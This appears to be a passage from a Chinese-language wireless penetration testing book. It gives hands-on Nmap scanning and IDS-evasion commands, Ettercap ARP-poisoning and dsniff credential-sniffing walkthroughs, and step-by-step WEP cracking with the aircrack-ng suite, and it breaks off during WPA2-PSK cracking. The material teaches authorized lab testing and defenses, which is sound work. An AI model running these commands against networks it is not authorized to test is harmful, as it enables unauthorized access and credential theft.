1.  列举最著名的访问控制攻击。

2.  列举最著名的机密性攻击。

3.  列举最著名的凭证攻击。

4.  列举最著名的认证攻击。

# 第 3 章：无线信息收集与足迹分析

## 简介

希望您喜欢上一章的阅读并有所收获，因为其中包含大量信息。在本章中，我们将讨论如何扫描无线网络以获取信息，以及几种无线扫描技术，并说明它们如何被用于正面或负面目的。

您可能会问或开始好奇扫描无线网络有多难。这是每个人都能做到的事！是的，但如果 SSID 不可见呢？您能发现隐藏的无线网络吗？普通用户不太可能知道隐藏无线网络的存在。

您可能还会想知道为什么隐藏无线网络如此必要。您可能认为隐藏身份不被他人发现是一种有用的安全预防措施。是的，确实如此！然而，隐藏无线网络也可能被用于有害和其他非法目的。

考虑以下场景：您是一家公司的安全顾问。据同事称，一些文件在下班后失踪或被一名在非办公时间没有物理访问权限且无远程访问权限的用户修改了。您检查了更新文件的时间戳以及凌晨 2 点后被删除的文件，还有登录并执行更改的用户名。该用户现在声称自己没有做错任何事。当天晚些时候，您的同事告诉您，他们目睹该用户在其工位上安装了一个无线接入点或路由器。您因安全顾虑向雇主询问搜查该用户工作区的可能性。在搜查该区域后，您发现在桌子下方安装了一个 Wi-Fi 接入点。这显然是个糟糕的局面！现在任何人都可以连接到公司网络，并在无线覆盖范围内的任何位置访问网络共享和服务器。

## 结构

在本章中，我们将讨论以下主题：

*   足迹分析
*   无线网络发现
*   无线扫描
*   嗅探无线网络
*   识别目标
*   防御攻击

#### 目标

在本章中，您将学习如何扫描无线网络以获取信息，了解两种不同形式的无线扫描及其工作原理。您还将学习如何使用 `Ettercap` 通过 ARP 欺骗嗅探无线网络，以及如何使用 `dsniff` 收集登录凭据。在无线渗透测试期间，您还将能够识别目标。最后，您将学习多种防御这些攻击的方法。

## 足迹分析

足迹分析是收集客户网络信息以基于数据构建档案的过程。至关重要的是，攻击者以安全且专业的方式从组织获取信息，且不泄露任何机密信息。

足迹分析通常包含两个侦察阶段。第一阶段是从目标获取数据以确定网络范围的作用域。以下是最常用的工具：

*   `Nslookup`
*   `Whois`

在下一阶段，您应收集以下信息：

*   联系人姓名、电话号码和电子邮件地址
*   每个分支机构的位置
*   公司安全策略

发送电子邮件或致电员工并实施社会工程学手段，以测定他们愿意共享多少信息，将获得更好的结果。然后，找出安全意识培训可以加强的领域。

## 无线网络发现

下一节将介绍网络和安全管理员推荐的最佳网络应用程序。这些工具可以检测流氓硬件、软件许可违规，甚至中断或性能问题。我们选择的应用程序种类多样且可靠。尽管我们将只讨论两个网络发现工具，但我们还将提供一些我们认为对您和您的公司有益的额外应用程序。

## Nmap

**网络映射器** 是一款知名的端口扫描器和网络发现工具。它兼容所有主流操作系统。 *图 3.1* 作为示例：


**图 3.1：** Nmap

请访问 **[`nmap.org/`](https://nmap.org/)** 了解更多关于 Nmap 的信息。

## Nmap 命令

Nmap 有许多命令选项，我们可能无法凭记忆回忆起所有选项。归根结底，关键在于了解您的命令以及在何种场景下使用哪些命令。作为渗透测试人员，您需要能够有效地使用大多数这些工具。以下是一些示例：

### 操作系统和版本检测

如 *图 3.2* 所示，这些命令将返回操作系统和软件版本的结果：



**图 3.2：** Nmap -A 命令

以下是一些命令：

*   `nmap -A 192.168.1.7`：此命令将显示操作系统、服务版本和路由追踪结果。
*   `nmap -v -A 192.168.1.7`：此命令将在扫描期间显示更详细的信息，包括操作系统、服务版本和路由追踪输出。
*   `nmap -O 192.168.1.7`：此命令将仅显示操作系统，如 *图 3.3* 所示：

    

    **图 3.3：** Nmap -O 命令

*   如果您使用 `--osscan-guess`，扫描将更积极地进行猜测，如 *图 3.4* 所示：

    

    **图 3.4：** Nmap -O --osscan-guess 命令

*   `nmap -A -iL /tmp/hosts.txt`：此命令将查找操作系统和服务版本信息，并执行路由追踪。然后将使用该文本文件输入主机或网络列表，如 *图 3.5* 所示：

    

    **图 3.5：** hosts.txt

    请参考 *图 3.6*：

    

    **图 3.6：** Nmap -A -iL 命令


### 服务扫描

这些命令将显示有关主机服务和端口的信息，以及主机或网络是否受防火墙保护。图 3.7 显示了这一点：



**图 3.7：** Nmap -sV 命令

以下是一些命令：

*   `nmap -sV 192.168.1.7`：此命令将查找开放端口，以查看当前可用的服务及其版本。
*   `nmap -sA 192.168.1.7`：此命令用于对防火墙进行策略扫描。它将显示防火墙是否仅仅是一个阻止 SYN 数据包的包过滤器。它向目标发送一个 ACK 数据包；如果收到响应，则为开放状态；如果未收到响应，则正在运行包过滤器，如 图 3.8 所示：

    

    **图 3.8：** Nmap -sA 命令

### 绕过防火墙过滤器

此命令可用于扫描受防火墙保护的主机或网络。此命令也受所用防火墙过滤器的影响。图 3.9 演示了该技术：


**图 3.9：** Nmap -PN 命令

以下是一些命令：

*   `nmap -PN 192.168.1.7`：使用此命令，主机将被视为在线状态进行扫描。如果您无法使用 ping 或扫描访问主机，这会很有用。
*   `nmap -PS 192.168.1.7`：此命令对指定端口执行 TCP SYN 发现扫描。
*   `nmap -PA 192.168.1.7`：此命令将对指定端口执行 ACK 发现扫描。

### 扫描防火墙漏洞

这些命令将查找典型的防火墙漏洞利用，这些漏洞依赖于发现 TCP 网络协议中的缺陷，如 图 3.10 所示：


**图 3.10：** Nmap -sN 命令

以下是一些命令：

*   `nmap -sN 192.168.1.7`：这是一个空扫描命令。因为空扫描不设置任何位，所以可用于绕过非状态防火墙和包过滤器。
*   `nmap -sF 192.168.1.7`：这是一个 FIN 扫描命令。FIN 扫描将仅设置 TCP FIN 位。当 FIN 数据包发送到开放端口时，开放端口会直接忽略它，而关闭端口会被重定向到 RST 数据包，这反过来又会在 Nmap 中揭示哪些端口是开放和关闭的。
*   `nmap -sX 192.168.1.7`：这是一个 Xmas 扫描命令。Xmas 扫描可用于查看目标机器的端口是开放还是关闭。此扫描发送设置了所有数据包头标志的 TCP 段。

### 数据包分片

为了使包过滤器、入侵检测系统和防火墙更难以识别您的扫描，此命令将 TCP 头部分离到多个数据包中。如果您想在不触发警报的情况下对网络执行隐秘扫描，将需要这些命令。例如，请参考 图 3.11：

*   `Nmap -sS -p 80 -f 192.168.1.7`：此命令在 `192.168.1.7` 的端口 `80` 上执行 TCP SYN 扫描，而不会触发任何入侵检测系统或警报。请记住，防火墙或 IDS 的设置和策略也起作用。

    

    **图 3.11：** 数据包分片命令

### 防火墙诱饵

您可以使用此命令向远程主机欺骗主机。如果欺骗操作得当，IDS 和网络管理将完全不知道正在进行网络扫描。示例命令如下：

*   `Nmap -n 192.168.1.7 -D 192.168.1.110`：此命令在不发出 DNS 请求的情况下扫描主机，并且还包含一个为 `192.168.1.110` 设置的诱饵，这使得扫描看起来像是由 `192.168.1.110` 而不是 Kali Linux 主机进行的。请参阅 图 3.12：

    

    **图 3.12：** 防火墙诱饵命令

## Zenmap

**Zenmap** 是 Nmap 的图形化前端，可在多个平台上运行。它简化了 Nmap 的使用，并包含用于即时运行扫描的预设指令。

请参阅 图 3.13：


**图 3.13：** Zenmap

请访问 **[`nmap.org/zenmap/`](https://nmap.org/zenmap/)** 了解有关 Zenmap 的更多信息。

## 无线扫描

无线接入点始终在寻找更多无线接入点进行连接。802.11 无线电在 2.4 到 5.85 GHz 的频率范围内运行。**被动** 和 **主动** 扫描是仅有的两种方法。默认情况下，802.11 无线电会在国家运营法律授权的所有信道上执行这两种扫描。

在没有 FCC 许可证或执照的情况下运营，即使仅一天也可能导致巨额罚款。您可能会想知道 FCC 是谁。**联邦通信委员会**（**FCC**）负责监督和监管美国电信行业，其中包括互联网。为什么这可能令人担忧？互联网的目的是让每个人都能在没有歧视、封锁、审查或网络限速的情况下访问它。简而言之，FCC 正在提议新的互联网法律和合同，这将允许互联网服务提供商收取溢价或出售*付费使用*服务，如果您没有额外的现金，将会降低您的网速。在进行任何本地广播或扫描之前，请咨询您所在国家的无线通信团队。

### 被动扫描

在 **被动扫描** 期间，会监控信标和探测响应。客户端无线电每秒传输一次扫描，然后审核无线网络上的数据包。因为被动扫描用于将客户端连接到接入点，所以它们始终处于启用状态。

### 主动扫描

仅扫描政府规则批准的信道。**主动扫描** 默认启用；但是，可以从无线适配器的配置文件或设置中将其移除。在主动扫描期间，无线电向该区域的其他设备发送具有空 SSID 名称的探测请求，以鼓励探测响应。换句话说，接入点主动寻找并监听其他设备，如 图 3.14 所示：


**图 3.14：** 主动扫描

### 扫描如何工作？

接入点必须更改信道以扫描操作范围之外的区域。来自接入点的这些无线 RF 信道扫描每秒发生一次，并在各种信道范围内进行，直到循环遍历所有信道，如 图 3.15 所示：


**图 3.15：** RF 信道

大约 25-30 毫秒后，无线接入点将退出 RF 信道。扫描的时机旨在避免干扰其他信标的传输。信道切换完成后，将发送探测请求。请记住，如果检测到语音、视频或其他大量数据使用，扫描频率将会降低。

## 嗅探无线网络

我们真的能“嗅”到无线网络吗？听起来很有趣，对吧？不，但有了正确的工具和设备，您就可以做到！无线嗅探是程序或工具在无线网络上使用的一种窃听技术。在网络中游荡的无线设备比嗅探的侵入性小。无线嗅探用于诊断无线网络上的网络问题和协议。

无线和有线连接都可以被监控和嗅探。因为无线网络通过无线电信号通信，所以嗅探它们要容易得多。攻击者可以坐在企业外面的车里，嗅探无线网络以获取敏感信息，用于个人利益、关注或金钱。


帧是由网络划分成的小块信息片段。数据包包含在这些帧中。攻击者可能以帧、数据包或两者为目标。

如果网络未遵循最新的无线加密标准，攻击者可以利用帧来检测该区域的隐藏无线网络并获得未经授权的访问。网络管理员使用这些方法来调试网络故障。

### Wireshark 应用程序

Wireshark 是一款免费且开源的数据包分析器。它用于排查和分析网络。它能详细捕获并显示网络数据包。网络和安全管理员使用 Wireshark 来诊断网络和安全问题。

多年前，有各种工具可供使用，但它们的使用成本都相对较高。Wireshark 通过免费向公众提供自身改变了这一现状。Wireshark 是目前可用的最强大的开源数据包分析器之一。

Wireshark 有多种用途。网络管理员将使用它来发现和排查网络问题。网络安全工程师可以调查安全问题。开发人员可以调试协议实现。用户可以很好地理解网络协议的工作原理，以及攻击者可能如何破坏它们。

在现实世界中，Wireshark 对于查看实时数据包以诊断 Web 应用程序问题、身份验证问题（如三次 TCP 握手）和审计特别有用。Wireshark 会告诉你数据包来自何处、要去往何处以及它们的用途。

例如，你可以查看某个用户是否比其他人使用了更多的网络流量。在工作时间，该用户可能在大量下载或观看 YouTube 视频。你可以限制该用户的带宽，以免网络因其而为其他所有人变慢。

Wireshark 是一款可在 Windows、Mac OS X 和 Linux 上运行的网络协议分析器。有关功能和支持的更多信息，请访问 [`www.wireshark.org/`](https://www.wireshark.org/)。Wireshark 预装在 Kali Linux 上，因此你无需安装它。不过，你可能需要在所需的任何操作系统上安装它。还有其他网络协议分析器工具，如 SolarWinds 深度包检测和分析工具、NetFlow 分析器和 PRTG Network Monitor。

### Ettercap

Ettercap 通过中间人攻击来冒充路由器或服务器。

攻击者可将 Ettercap 用于以下目的：

*   篡改数据
*   收集 FTP、HTTP、POP 和 SSHv1 等协议的密码
*   在 HTTPS 会话中伪造 SSL 证书

在 ARP 欺骗之后，我们将在本 Ettercap 演示中把 Kali Linux 系统定位为 `man-in-the-middle`（中间人）。让我们开始吧！

1.  打开一个 bash 终端并输入 `ettercap –G` 以图形模式启动 Ettercap，如 图 3.16 所示。选择 `Primary Interface`（主接口）`wlan0`，然后接受设置：

    

    **图 3.16：** Ettercap

2.  选择 `Hosts`（主机），然后从下拉菜单中选择 `Scan for hosts`（扫描主机），如 图 3.17 所示：

    

    **图 3.17：** 扫描主机

3.  点击 `Hosts`（主机），然后点击 `Hosts list`（主机列表），如 图 3.18 所示：

    

    **图 3.18：** 主机列表

4.  选择路由器的 IP 地址后添加到 `Target 1`（目标 1）。如果你想以另一台路由器或服务器为目标，从列表中选择另一个 IP 地址并点击 `Add to Target 2`（添加到目标 2），如 图 3.19 所示：

    

    **图 3.19：** 添加目标

    如果你不选择任何内容，整个子网都将遭受 ARP 投毒。**切勿在生产网络上执行此操作！** 本示例中使用的路由器 IP 地址为 `192.168.1.1`。

5.  然后转到 `Mitm`，再选择 `ARP poisoning`（ARP 投毒），如 图 3.20 所示：

    

    **图 3.20：** ARP 投毒

6.  勾选 `Sniff remote connections`（嗅探远程连接）复选框，如 图 3.21 所示：

    

    **图 3.21：** 嗅探远程连接

7.  点击 `Start`（开始），然后点击 `Start Sniffing`（开始嗅探），如 图 3.22 所示：

    

    **图 3.22：** 开始嗅探

现在子网已陷入中间人攻击，攻击者只需对子网发起修改过的或过滤后的攻击即可。这些过滤器可与 Ettercap 的插件配合使用，或从头构建。常见的攻击如 DNS 欺骗、FTP 提示篡改和 SSH 降级攻击均发生于此。最终用户将完全不知情。网络管理员可以使用 Wireshark 找出数据包的来源并追踪攻击者的 IP 地址。作为一条规则，请勿使用默认或自动安全设置。强制实施最高级别的安全性，并教育员工遵循安全最佳实践。

### dsniff

dsniff 是一款功能强大的密码嗅探器，可检测多种网络协议，包括 Telnet、FTP、SMTP、POP3、IMAP、HTTP、CVS、Citrix、SMB、Oracle 等。虽然 Wireshark 可以揭示关于数据包的大量信息，但 dsniff 可以揭示用户名和密码。你可以选择要监听的接口，并将结果保存为稍后可读的文件格式。让我们看几个使用 dsniff 的示例，如 图 3.23 所示：


**图 3.23：** dsniff 工具

执行以下步骤：

1.  打开一个新的终端窗口。
2.  输入以下命令：`dsniff -i wlan0`。选项 `-i` 是网络接口，我们选择了 `wlan0`，如 图 3.24 所示：

    

    **图 3.24：** dsniff -i wlan0 命令

3.  使用前面提到的几乎任何系统协议的账户登录，如 图 3.25 所示：

    

    **图 3.25：** FTP 协议

4.  如果你回到另一个终端，你应该会注意到 dsniff 已暴露你的登录凭据，如 图 3.26 所示：

    

    **图 3.26：** dsniff 输出

如果有人在未使用加密的情况下登录，dsniff 将捕获登录凭据。因此，强烈建议在可用时始终使用加密。请确保你使用的是最新的 TLS 标准和带有 2048+ 位密钥的优秀安全证书。然而，如果你正在配置服务器，请将默认端口更改为独特的端口。这有助于减少潜在攻击的数量以及野外可能存在的任何安全风险。

假设你想使用 dsniff 在本地局域网上嗅探远程电脑的密码？当然，没问题！有一个叫作 arpspoof 的工具，可让你欺骗攻击计算机的 IP 地址，使其成为默认网关或发起中间人攻击。要使此攻击生效，你需要为计算机启用 IP 路由，以有效地在两台计算机系统之间建立正确的通信。

## 识别目标


## 保护自己免受攻击

无论问题是什么，我们始终必须确切了解如何保护自己免受可能发生的任何威胁。无论威胁来自网络内部还是外部，你都必须让自己了解个人或公司可能如何影响你。有几种解决方案可以保护自己免受此类攻击：

*   **防范 Nmap 和 Zenmap：**
    *   创建自定义防火墙规则和访问列表
    *   任何全天候监控网络流量的硬件 `IDS`
    *   阻止或过滤 `ICMP` ping

*   **防范无线扫描：**
    *   配置最新的无线加密算法
    *   配置 `MAC` 地址过滤规则
    *   关闭或隐藏无线广播
    *   关闭 `UPnP` 支持

*   **防范嗅探无线网络：**
    *   使用 `SSH` 和 `HTTPS` 代替 `Telnet` 和 `HTTP`
    *   使用 `VPN` 服务连接
    *   仅连接到受信任的无线网络

## 结论

在本章中，你了解了如何扫描无线系统以获取信息，看到了两种不同类型的无线扫描，并了解了它们的工作原理。你学会了如何通过 `Ettercap` 进行 `ARP` 投毒来嗅探无线系统，以及如何使用 `dsniff` 获取登录凭据。此外，我们还讨论了如何在无线渗透测试期间确定目标。

最后，你学习了多种不同的解决方案来保护自己免受这些攻击。保持攻击者的思维模式非常重要，因为这将让你对可能威胁你个人或公司的更多安全威胁睁大眼睛。始终连接到受信任的无线系统，在可用时使用加密，并在旅行时使用 `VPN`。

现在，你已准备好继续学习 *第 4 章，无线漏洞研究。*

## 问题

1.  什么是足迹搜集？
2.  提及最著名的无线网络发现工具。
3.  无线扫描有哪些类型？
4.  如何保护自己免受无线扫描？
5.  提及常见的网络协议分析工具。

# 第 4 章：无线漏洞研究

## 简介

在本章中，你将熟悉如何策划攻击并破解 `WEP`/`WPA`/`WPA2` 无线网络，并学习 MAC 地址欺骗以获得对网络的未授权访问。此外，你还将学习如何保护自己免受大多数此类威胁。本章将包含使用 `Kali Linux` 的实践分步指南。请注意，只有拥有 *第 1 章，无线渗透测试实验室搭建* 末尾提到的无线网卡或适配器，你才能跟随本章的破解部分进行操作。

在开始之前，在破解任何无线网络之前，有一些事情你需要知道：

*   未经授权破解任何无线系统均属违法
*   如果你在未经授权的情况下被抓获，将面临你所在地区法律规定的后果
*   请仅在你自己的网络上演示这些方法

## 结构

在本章中，我们将讨论以下主题：

*   策划攻击
*   无线密码破解
*   欺骗你的 MAC 地址
*   保护自己免受攻击

#### 目标

在本章中，你将学习如何为攻击制定计划。接下来，你将学习多种攻击方法。然后，你将详细了解 `WEP`、`WPA` 和 `WPA2` 加密。最后，你将学习多种降低无线攻击风险的方法。

## 策划攻击

在我们对任何无线扫描或破解任何无线加密进行操作之前，必须做的第一件事就是策划攻击。我们必须确保拥有运行无线渗透测试所需的一切，并确保向自己提出尽可能多的问题，以便在过程中不遇到任何障碍。让我们从需求清单和破解无线网络所采取的步骤开始。

#### 无线攻击

在这里，我们列出了进行完整无线攻击所需的条件：

*   **兼容的无线网卡**：注意它必须支持数据包注入。
*   **Kali Linux 操作系统**：我们所有的安全工具都已预装。
*   **笔和纸用于记录笔记**：这将帮助我们保持条理清晰。

## 攻击无线网络的计划

以下是策划无线攻击的步骤：

1.  扫描该区域的无线网络列表。
2.  记下 `BSSID`、信道编号和加密方式。
3.  列出你将用于攻击的几种攻击方法：
    1.  `Airodump`
    2.  `Aircrack`
    3.  字典攻击
    4.  默认登录
    5.  密码猜测
4.  依次进行每种方法。
5.  记录成功和不成功的结果。
6.  再试一次。

## 无线密码破解

破解无线加密有多种方法。在这里，我们将讨论破解无线网络最典型的解决方案。在接下来的几节中，我们将详细讨论每种无线加密是什么，并演示如何破解这些无线加密类型。让我们开始吧！

## WEP 加密

尽管 `WEP` 协议早在 2000 年就被确认存在缺陷，但它仍在使用中，且接入点仍在出厂时启用 `WEP` 功能。

Walker、Arbaugh、Fluhrer、Martin、Shamir、KoreK 等人发现了 `WEP` 存在多个加密缺陷。`WEP` 的加密分析超出了本书范围，因为它需要对复杂数学有透彻的理解。在本节中，我们将探讨如何使用易于获取的工具在 `Kali` 平台上破解 `WEP` 加密。这包括 `airmon-ng`、`aireplay-ng`、`airodump-ng`、`aircrack-ng` 以及 `aircrack-ng` 套件中的其他工具。

`WEP` 的核心缺陷在于使用带有短 `IV` 值的 `RC4`，该值每 224 帧就会被回收利用。尽管这是一个巨大的数量，但每 5,000 个数据包就有 50% 的概率出现四次重用。为了利用这一点，我们生成大量流量以增加 `IV` 重用的可能性，从而比较使用相同 `IV` 和密钥加密的两个密文，如 *图 4.1* 所示：


**图 4.1：** WEP 加密

## 破解 WEP 加密

在本部分中，我们将逐步介绍如何破解 `WEP` 加密的说明。


### WEP 破解实战步骤

#### 1. 配置接入点
连接到我们的接入点 **Wireless Lab**，并导航至处理无线加密机制的设置部分，如 *Figure 4.2* 所示。在我的接入点上将 **Security Options** 设置为 **WEP** 即可实现此目的。我们还需要调整 WEP 密钥的长度。我们已将 WEP 配置为使用 64 位密钥，如 *Figure 4.2* 所示。我们将默认密钥设置为 **WEP Key 1**，并将 64 位 WEP 密钥值设置为十六进制的 `0123456789`。您可以将其更改为任何您想要的值。


**Figure 4.2:** Netgear router setting

完成更改后，接入点现在应该能够使用 WEP 作为加密方法。让我们启动攻击者机器。

#### 2. 启用监听模式
打开一个终端窗口并输入以下命令，然后按 *Enter* 键：

```
airmon-ng start wlan0
```

`wlan0` 接口将通过此命令在监听模式下启动。监听模式允许您的计算机监听通过无线网卡范围内的每个无线数据包。我们将能够使用此技术向无线网络注入数据包。结果如 *Figure 4.3* 所示：


**Figure 4.3:** airmon-ng command

#### 3. 抓取数据包
然后按 *Enter* 键后输入以下命令：

```
airodump-ng wlan0
```

此命令开启无线接口的监听模式。结果如 *Figure 4.4* 所示：


**Figure 4.4:** airodump-ng command_1

#### 4. 定向抓取握手包
按 *Enter* 键后输入以下命令：

```
airodump-ng -c 1 -w capture --bssid DC:EF:09:59:B1:1F wlan0
```

命令组件如下：

*   `-c`：指定信道
*   `-w`：指定写入文件
*   `–bssid`：指定无线接入点 MAC 地址

*Figure 4.5* 是上一命令的输出：


**Figure 4.5:** airodump-ng command_2

让我们将无线客户端连接到接入点并使用 WEP 密钥 `0123456789`。当客户端成功连接时，`airodump-ng` 应在屏幕上显示一条消息。

为了利用协议中的缺陷，我们需要大量使用相同密钥加密的数据包，这在繁忙网络场景中也是如此。因此，我们需要让网络产生更多数据包。我们将使用 `aireplay-ng` 实用程序来实现这一点。

#### 5. 伪造认证关联
按 *Enter* 键后输入以下命令，如 *Figure 4.6* 所示：

```
airplay-ng -1 1000 -q 10 -e ‘Wireless Lab’ -a DC:EF:09:59:B1:1F -h 00:11:22:33:44:55 wlan0 --ignore-negative-one
```

命令组件如下：

*   `-1`：每次突发的数据包数量
*   `-q`：保活包之间的秒数
*   `-e`：设置目标 AP SSID
*   `-a`：设置接入点 MAC 地址
*   `-h`：设置源 MAC 地址（`00:11:22:33:44:55` 为伪造的 MAC 地址）
*   `--ignore-negative-one`：解决 wlan0 固定信道问题


**Figure 4.6:** aireplay-ng command_1

#### 6. ARP 重放攻击
我们将使用 `aireplay-ng` 拦截无线网络上的 ARP 数据包并将其重新注入以模仿 ARP 应答。如 *Figure 4.7* 所示，我们将在一个单独的窗口中运行 `aireplay-ng`。如果我们重复这些数据包几千次，将在网络上产生大量数据流量。即使 `Aireplay-ng` 没有访问 WEP 密钥的权限，它也可以根据数据包大小检测 ARP 数据包。因为 ARP 是固定头部协议，所以 ARP 数据包的大小可以很容易地估算，并用于识别它们，即使通信是加密的。我们将使用接下来要介绍的选项配合 `aireplay-ng`。`-3` 选项用于 ARP 重放，`-b` 选项用于我们网络的 BSSID，`–h` 选项用于伪造客户端的 MAC 地址。重放攻击仅对授权且已关联的客户端 MAC 地址有效，因此我们需要执行此操作，如 *Figure 4.7* 所示：

```
aireplay-ng -3 -b DC:EF:09:59:B1:1F -h 00:11:22:33:44:55 wlan0
```


**Figure 4.7:** aireplay-ng command_2

#### 7. 数据包积累
此时 `Airodump-ng` 也将开始记录大量数据包。捕获文件包含所有这些拦截的数据包。

#### 8. 破解 WEP 密钥
让我们开始实际破解！在一个新窗口中，我们使用 `capture-01.cap` 选项运行 `aircrack-ng`。这将启动 `aircrack-ng` 程序，该程序将开始使用文件中的数据包破解 WEP 密钥。`Airodump-ng` 应收集 WEP 数据包，`aireplay-ng` 应执行重放攻击，`aircrack-ng` 应尝试根据收集的数据包破解 WEP 密钥，所有这些应同时进行。在本实验中，它们都在不同的窗口中打开。按 *Enter* 键后输入以下命令，如 *Figure 4.8* 所示：

```
aircrack-ng capture-01.cap
```


**Figure 4.8:** aircrack-ng command

破解密钥所需的数据包数量是不确定的；但通常在数十万或更多。在快速网络上（或使用 `aireplay-ng`），这不应超过 5–10 分钟。如果文件中当前的数据包数量不足，`aircrack-ng` 将暂停并等待收集更多数据包；然后重新启动破解过程。一旦收集并分析了足够的数据包，`Aircrack-ng` 应能够破解密钥。

如果您成功破解了网络密钥，恭喜您成功破解了一个 WEP 加密网络！如果不成功也不要担心。每个无线接入点和网络都是独特的。这还取决于您与接入点之间的信号强度以及使用的加密级别。

至关重要的是要理解 WEP 完全存在缺陷，`Aircrack-ng` 可以破解任何 WEP 密钥（无论多么复杂）。唯一的要求是 `aircrack-ng` 能够访问足够多的使用该密钥加密的数据包。

**注意：** 我们还可以使用上一章学到的 **Shared Key Authentication** 绕过方法来模拟对接入点的认证。如果合法客户端退出网络，这将很有用。这将允许我们在仍将重放数据包发送到网络的同时伪造认证和关联。

## WPA 和 WPA2 加密

**TKIP** 加密算法主要由 **WPA** 使用。**TKIP** 的创建目标是在不需要全新硬件的情况下升级 **WEP**。另一方面，**WPA2** 使用 **AES-CCMP** 加密技术，它比 **TKIP** 强大且健壮得多。

**WPA** 和 **WPA2** 都支持通过 **RADIUS** 服务器进行基于 **EAP** 的认证（企业版），或基于 **Pre-Shared Key**（**PSK**，预共享密钥）的认证模式（个人版）。

可以对 **WPA/WPA2 PSK** 使用字典攻击。此攻击需要客户端与接入点之间的四次 **WPA** 握手，以及常用口令的字典。然后我们可以尝试使用 `Aircrack-ng` 等工具破解 **WPA/WPA2 PSK** 密码。

四次握手如 *Figure 4.9* 所示：


**Figure 4.9:** WPA/WPA2 authentication diagram

**Pairwise Transient Key**（**PTK**，成对临时密钥）是使用 **PSK** 和其他五个参数计算得出的：网络 **SSID**、**Authenticator Nounce**（**ANonce**，认证者随机数）、**Supplicant Nounce**（**SNonce**，申请者随机数）、**Authenticator MAC address**（**Access Point MAC**，认证者 MAC 地址）和 **Supplicant MAC address**（**Wi-Fi Client MAC**，申请者 MAC 地址）。然后使用此密钥加密接入点和客户端之间的数据。


上一段描述的所有五个因素都可以通过攻击者嗅探空气和监听整个对话来获取。他缺少的唯一东西就是 PSK。那么，PSK 是如何生成的呢？它是通过将用户提供的 WPA-PSK 密码和 SSID 结合计算得出的。`Password-Based Key Derivation Function`（`PBKDF2`，基于密码的密钥派生函数）用于从两者的组合中生成 256 位共享密钥。

攻击者会在标准的 WPA/WPA2 PSK 字典攻击中，结合攻击工具使用一个包含大量可能密码短语的字典。该工具会从每个密码短语中提取 256 位 PSK，并将其与前面指定的其他参数结合来生成 PTK。握手数据包之一的 `Message Integrity Check`（`MIC`，消息完整性校验）将使用 PTK 进行验证。如果字典中的密码匹配，则猜测准确；如果不匹配，则不正确。

如果授权网络的密码短语存在于字典中，最终就会被识别出来。这就是 WPA/WPA2 的 PSK 破解原理！步骤如 *Figure 4.10* 所示：


**Figure 4.10:** WPA/WPA2 字典攻击

## 破解 WPA-PSK 和 WPA2-PSK 密码短语

要开始操作，只需遵循提供的说明。

1.  首先连接到我们的 Wireless Lab 接入点，并将其配置为使用 WPA2-PSK [AES]。我们将把 WPA2-PSK [AES] 密码改为 `abcdefgh`，使其容易受到字典攻击，如 *Figure 4.11* 所示：

    

    **Figure 4.11:** Netgear 路由器设置

2.  在终端中输入以下命令：

    ```
    airmon-ng start wlan0
    ```

    此命令将启动 `wlan0` 接口的监听模式，如 *Figure 4.12* 所示：

    

    **Figure 4.12:** airmon-ng 命令

3.  输入以下命令后按 *Enter* 键：

    ```
    airodump-ng wlan0
    ```

    这将使我们能够向无线网络注入数据包，如 *Figure 4.13* 所示：

    

    **Figure 4.13:** airodump-ng 命令 _1

4.  输入以下命令后按 *Enter* 键，如 *Figure 4.14* 所示：

    ```
    airodump-ng -c 11 -w wpacracking --bssid DC:EF:09:59:B1:1F wlan0
    ```

    

    **Figure 4.14:** airodump-ng 命令 _2

